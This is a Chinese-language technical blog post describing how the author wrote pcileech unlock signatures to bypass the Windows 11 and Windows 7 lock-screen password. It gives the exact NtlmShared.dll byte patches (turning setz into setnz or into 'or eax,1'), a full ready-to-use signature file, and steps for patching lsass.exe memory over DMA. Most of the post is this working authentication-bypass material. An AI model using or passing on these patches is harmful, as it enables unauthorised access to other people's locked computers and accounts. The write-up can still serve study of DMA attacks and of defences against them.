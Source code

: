 ```yaml
---
layout:     post
title:      【技术研究】pcileech编写unlock脚本过win11和win7锁屏
subtitle:   TEC
date:       2024-03-28
author:     Corax
header-img: img/post-bg-coffee1.jpg
catalog: true
tags:
    - 【技术研究】
    - 【逆向】
---
```


昨天用了pcileech的windows10的unlock脚本，能够成功。

今天把windows11和windows7的unlock脚本给写出来了。



# win11绕密码

unlock_win11x86原本的替换909090909090，无法绕过

![image-20240329151220658](https://typora-1321221957.cos.ap-shanghai.myqcloud.com/image1/202403291532269.png)

原因在不走图中流程

![image-20240329151328493](https://typora-1321221957.cos.ap-shanghai.myqcloud.com/image1/202403291532270.png)

正确逻辑在

![image-20240329151345109](https://typora-1321221957.cos.ap-shanghai.myqcloud.com/image1/202403291532271.png)

可以把setz直接取反 如下

```
180004009 | 0F 94 C0             |   setz    al

替换为

180004009 | 0F 95 C0 
```

也可以把setz变成83c801 异或值给到al，成功绕密

```
018,488B9C24F0000000,009,0F94C0,009,83C801
```

详细脚本

```
# Unlock Signatures for Local and AD Accounts for Windows 11 x64 version
#
# Method 1: (faster):
# 1.1 check pid of lsass.exe: pcileech pslist
# 1.2 patch: pcileech patch -sig wx64_unlock_win11.sig -all -pid <pid_of_lsass>
#
# Method 2:
# 2.1 patch: pcileech patch -sig wx64_unlock_win11.sig -all
#
# Syntax: see signature_info.txt for more information.
# Generated on 2023-11-26 16:58:59
#
#
# Signature for Windows 11 x64 [NtlmShared.dll 10.0.20348.1668 / 2023-03-30]
A7B,488BCB48FF15A3280000,A8D,0F84B2FAFFFF,A8D,0F85
```